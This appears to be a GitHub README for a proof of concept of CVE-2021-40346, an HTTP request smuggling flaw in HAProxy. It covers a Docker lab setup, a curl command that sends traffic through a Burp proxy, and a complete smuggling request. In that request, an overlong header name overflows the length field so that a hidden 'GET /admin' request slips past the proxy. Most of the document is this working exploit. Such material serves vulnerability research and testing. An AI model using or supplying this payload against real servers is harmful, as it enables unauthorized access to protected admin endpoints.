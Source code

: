 # CVE-2021-40346-POC #

CVE-2021-40346 integer overflow enables http smuggling


## Build ##
```sh
cd 6-haproxy-overflow-2-smuggling
docker-compose build 
docker-compose up -d
```

## Proxy
Catch the base request into Burp
```
curl --proxy http://127.0.0.1:8080 http://192.168.139.128:10001/guest
```

## Burp Suite
Remember to uncheck "update content length" when dealing with Smuggling in Burp! 

![image](https://user-images.githubusercontent.com/31791455/140394586-6a44d0f5-363e-455c-b22b-f619868bcc87.png)


## Exploit ##
Be careful - note that an extra line might break the exploit.
```
POST /guest HTTP/1.1
Host: localhost:10001
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 23

GET /admin HTTP/1.1
h:GET /guest HTTP/1.1
Host: localhost:10001


```

![image](https://user-images.githubusercontent.com/31791455/140395810-d1890aee-1285-451a-a663-bbf35746b5db.png)



## Recommended reading:
https://forum.butian.net/share/694
https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

## Credits:
https://github.com/donky16/CVE-2021-40346-POC


